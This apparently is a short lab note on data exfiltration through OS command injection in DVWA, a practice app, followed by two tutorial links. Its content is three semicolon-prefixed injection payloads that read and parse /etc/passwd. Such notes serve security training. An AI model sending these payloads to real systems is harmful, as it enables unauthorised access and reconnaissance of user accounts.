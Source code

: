 # 03 - Data Exfiltration

Search Tag(s): #command-injection #dvwa

```
; while read line; do echo $line; done < /etc/passwd

; while IFS= read -r line;do echo "$line"; done < /etc/passwd

; while IFS=: read -r username password userid groupid comment homedir cmdshell;do echo "$username, $userid, $comment $homedir"; done < /etc/passwd
```

---
## References

- [Hacking Articles: Comprehensive Guide on OS Command Injection](https://www.hackingarticles.in/comprehensive-guide-on-os-command-injection/)

- [YeahHub: Command Injection Meterpreter Shell Detailed Tutorial 2018](https://www.yeahhub.com/command-injection-meterpreter-shell-detailed-tutorial-2018/)